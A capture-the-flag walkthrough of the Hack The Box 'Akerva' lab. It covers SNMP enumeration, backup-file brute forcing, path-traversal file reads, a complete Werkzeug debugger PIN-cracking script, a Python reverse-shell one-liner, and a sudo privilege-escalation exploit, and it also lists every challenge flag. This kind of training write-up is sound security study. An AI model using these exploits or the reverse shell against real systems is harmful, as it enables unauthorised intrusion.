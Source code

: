# HTB_Fortress : Akerva
### IP-10.13.37.11

Plain sight
----------------

Started nmap scan on the url and got 3 open ports:

```
22 - SSH
80 - HTTP
5000 - HTTP
```

Port 80 is a wordpress website where as 5000 have basic http authentication.
In the page source of port 80 website, I got first flag.

```
AKERVA{Ikn0w_F0rgoTTEN#CoMmeNts}
```

Take a look Around
------------------

I then scanned for UDP ports and got 161 port open which is running snmp.
I used metasploit to scan this port.

```
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 10.13.37.11
run
```

In the output of running processes I got the second flag.

```
AKERVA{IkN0w_SnMP@@@MIsconfigur@T!onS}
```

Dead poets
-----------------

I downloaded the file which was creating backup zip every 17 minutes.

```
curl -X POST http://10.13.37.11/scripts/backup_every_17minutes.sh
```

This script is backing up the entire website into a zip file every 17 minutes and removing the previous backup files.
Now to get the latest backup file, I created a wordlist of all possible 4 digit numbers.

```
crunch 4 4 0123456789 -o wordlist.txt
```

After this used wfuzz to brute files in the backups directory.

First I got the timing of the machine by 

```
curl -I 10.13.37.11
```

I got something like:

```
....
Date: Fri, 01 Oct 2021 06:33:42
....
```

Now I know that the backp file must be named like: backup_2021100106XXXX.zip in the format YYYYMMDDHHMMSS

```
wfuzz -u http://10.13.37.11/backups/backup_2021100106FUZZ.zip -w wordlist.txt --hc 404
```

I got a hit at 2228.
I downloaded this backup file.

Got MySQL creds.

```
/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ZokDHE_DJ_____enzU)=' );
```

Also in the dev folder, there is a file space_dev.py which contains the next flag

```
AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}
```

Open book
---------------------

From the script I found that this flag is also the password for the "aas" user in port 5000 website.

So i logged into the website as "aas".
From the script, I found that there is a /file directory which was taking arguments. So I thought this could be LFI attack.

Got the /etc/passwd by
```
http://10.13.37.11:5000/file?filename=../../../../../etc/passwd
```

So I can get the ssh keys of the "aas" user, but could not get it. 

Instead I got the next flag by:

```
http://10.13.37.11:5000/file?filename=../../../../../home/aas/flag.txt
AKERVA{IKNOW#LFi_@_}
```

Say Friend and Enter
--------------------

I found another directory /console which is an interactive console but pin protected.
Found that it was using Werkzeug Debugger.

And found this exploit (https://www.daehee.com/werkzeug-console-pin-exploit/) to gain console.
But for this I needed MAC address and machine ID.

So to get these I used the previous LFI attack to get these values.

To find server MAC address, need to know which network interface is being used to serve the app (e.g. ens3). If unknown, leak /proc/net/arp for device ID and then leak MAC address at /sys/class/net/<device id>/address.

And Machine ID is in /etc/machine-id.

Got the device ID :  ens33

```
# MAC address: 00:50:56:b9:06:ef 
# Machine ID : 258f132cd7e647caaf5510e3aca997c1 
```

Then convert MAC to decimal using python.

```
>> python3 -c 'print(0x5056b906ef)'                                          
345052350191
```

Got all the required values for the exploit.

Now the final exploit becomes:

```
import hashlib
from itertools import chain
probably_public_bits = [
        'aas',# username
        'flask.app',# modname
        'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]
 
private_bits = [
        '345052350191', # str(uuid.getnode()),  /sys/class/net/ens33/address
        '258f132cd7e647caaf5510e3aca997c1' # get_machine_id(), /etc/machine-id
]
 
h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')
 
cookie_name = '__wzd' + h.hexdigest()[:20]
 
num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]
 
rv =None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num
 
print(rv)
```

Running thie exploit I got the pin.

```
194-380-483
```
On entering this pin on the website, got an interactive python console.
So I used python reverse shell to get reverse shell.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.16.45",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

In the directory of aas, there was a hidden file named .hiddenflag.txt

Got the next flag.

```
AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}
```

Super Mushroom
----------------------

I ran linpeas.sh and found the sudo version is 1.8.21p2 which is exploitable using this(https://github.com/saleemrashid/sudo-cve-2019-18634) exploit.
In my local machine I downloaded this exploit and made an executable output and transferred it into the machine. And on running I got root.

Next flag is in /root.

```
AKERVA{IkNow_Sud0_sUckS!}
```

Little Secret
----------------------

In secured_note.md there was a Base64 encoded string.

```
R09BSEdIRUVHU0FFRUhBQ0VHVUxSRVBFRUVDRU9LTUtFUkZTRVNGUkxLRVJVS1RTVlBNU1NOSFNLUkZGQUdJQVBWRVRDTk1ETFZGSERBT0dGTEFGR1NLRVVMTVZPT1dXQ0FIQ1JGVlZOVkhWQ01TWUVMU1BNSUhITU9EQVVLSEUK
```

Decoding it I got another encoded string.

```
GOAHGHEEGSAEEHACEGULREPEEECEOKMKERFSESFRLKERUKTSVPMSSNHSKRFFAGIAPVETCNMDLVFHDAOGFLAFGSKEULMVOOWWCAHCRFVVNVHVCMSYELSPMIHHMODAUKHE
```

Found that this was a vigerene code
Found that some alphabets are missing from the code: B J Q X Z
Removed them from the decode alphabet field in this(https://www.dcode.fr/vigenere-cipher) website.

The key is: ILOVESPACE
Decoded:

```
WELLDONEFORSOLVINGTHISCHALLENGEYOUCANSENDYOURRESUMEHEREATRECRUTEMENTAKERVACOMANDVALIDATETHELASTFLAGWITHAKERVAIKNOOOWVIGEEENERRRE
```

After adding spaces:

```
WELL DONE FOR SOLVING THIS CHALLENGE YOU CAN SEND YOUR RESUME HERE AT RECRUTEMENT AKERVA COMAND VALIDATE THE LAST FLAG WITH AKERVAIKNOOOWVIGEEENERRRE
```

Final flag is:

```
AKERVA{IKNOOOWVIGEEENERRRE}
```
